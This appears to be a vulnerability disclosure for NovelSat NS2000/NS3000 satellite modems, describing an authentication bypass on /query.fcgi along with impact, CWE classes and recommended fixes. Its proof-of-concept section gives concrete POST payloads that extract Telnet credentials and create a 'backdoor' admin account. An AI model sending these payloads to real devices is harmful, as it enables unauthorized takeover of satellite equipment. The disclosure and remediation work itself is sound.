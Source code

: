 # NovelSat NS2000 and NS3000  Satellite Modem / Demodulator  - unauthenticated session hijacking and administrative access  Vulnerability Disclosure

## Description

NovelSat NS2000 and NS3000 Satellite Modem / Demodulator firmware (versions `NS3000.7.x` and `NS2000.x`) are vulnerable to **unauthenticated session hijacking** and **administrative access** due to missing authentication checks on the `/query.fcgi` endpoint.

An attacker can:
- Create or delete users
- Change passwords
- Retrieve Telnet credentials  
**— all without a session token or login.**

---

## Vendor Information

- **Vendor:** NovelSat Ltd.  
- **Vendor Homepage:** [https://novelsat.com/](https://novelsat.com/)

---

## Affected Products / Code Base

- **Product:** NovelSat NS2000, NS3000 Satellite Modem / Demodulator  
- **Hardware Version:** 7.x  
- **Firmware/Software Versions:**  
  - `NS3000: NS3000.7.x`  
  - `NS2000: NS2000.x`

---

## Vulnerability Type

- Session Hijacking  
- Authentication Bypass  
- Insecure Direct Object Reference (IDOR)

---

## Vulnerable Endpoints

- `/query.fcgi`  
- `/`

---

## Exploit Summary

The NovelSat NS2000 and NS3000 firmware contain a **critical vulnerability** that allows unauthenticated attackers to perform privileged administrative actions, such as:

- Creating admin users  
- Changing or deleting users  
- Extracting Telnet credentials

This occurs due to a **lack of session validation** on sensitive backend endpoints.

---

## Impact

- Full unauthorized administrative control  
- Credential disclosure (including Telnet access)  
- Remote access and potential backdoor creation  
- Denial of service via user deletion or password change

---

## Proof of Concept (PoC)

A working Python exploit has been developed to demonstrate:

- Add new admin user  
- Change an existing user's password  
- Delete any user  
- Extract Telnet credentials

### 🔐 Extracting Telnet Credentials

```python
payload = "form_state=1&form_name=tcp_opt"
response = send_request("http://<TARGET>/query.fcgi", payload)

# Response contains Telnet user/pass if admin is logged in (no session ID needed)
parts = response.split(";")
db_index = parts.index("db")
root_value = parts[db_index + 12]
adminpass_value = parts[db_index + 16]
print(f"Telnet username: {root_value}, password: {adminpass_value}")
```
### ➕ Adding a New Admin User
```python
payload = "form_state=2&form_name=system_users&field_name=adduserb&field_val=backdoor&field_val2=backdoorpass&field_val3=1"
send_request("http://<TARGET>/query.fcgi", payload)
```
---

## **PoC Video**  

https://github.com/user-attachments/assets/29556441-c845-4a09-927e-4d0ad2715b78

---

## Vulnerability Classification

- **CWE-306** – Missing Authentication for Critical Function  
- **CWE-285** – Improper Authorization  
- **CWE-640** – Weak Session Management  
- **CWE-434** – Unrestricted Access to Sensitive Functionality

---

## Suggested Fixes

To mitigate the session hijacking and unauthorized access vulnerability in the `/query.fcgi` endpoint, the following technical and architectural measures are recommended:

### 1. Enforce Session Validation on Backend Endpoints

- Ensure all requests to sensitive endpoints (e.g., `/query.fcgi`) require a valid, active session.
- Implement backend validation of session tokens (`session_id`) or JSON Web Tokens (JWT) before executing privileged actions.

### 2. Implement Role-Based Access Controls (RBAC)

- Validate user permissions server-side based on assigned roles (e.g., admin, operator).
- Prevent unauthenticated or low-privileged users from performing privileged operations.

### 3. Use Secure Cookies or Tokens

- Store session tokens in `HttpOnly` and `Secure` cookies.
- Invalidate sessions on logout or after inactivity.
- Implement CSRF protections if cookies are used for authentication.

### 4. Obfuscate and Authenticate Form Requests

- Prevent manipulation of `form_state` and `form_name` parameters without authentication.
- Digitally sign or encrypt sensitive POST payloads to detect and prevent tampering.

### 5. Audit and Harden `/query.fcgi`

- Review backend logic for handling parameters such as `form_state`, `form_name`, and `field_name`.
- Introduce middleware to block unauthorized access before executing backend logic.
- Return standardized error responses for unauthorized users (e.g., `401 Unauthorized`).

### 6. Log and Monitor All Admin Actions

- Log all attempts to access or modify administrative settings.
- Alert on unusual activity, such as repeated requests to `/query.fcgi` from unknown IPs.

### 7. Network-Level Hardening

- Restrict access to the device using firewall rules — allow only trusted IPs.
- Disable direct WAN access; require VPN for remote access.

---

## Mitigation / Recommendations

- Enforce strict session validation across all sensitive endpoints.  
- Require authentication tokens or session ID checks for privileged actions.  
- Audit and secure firmware endpoint access control logic.  
- Place devices behind a VPN or firewall to restrict exposure.  
- Actively monitor and alert on suspicious or unauthorized configuration changes.
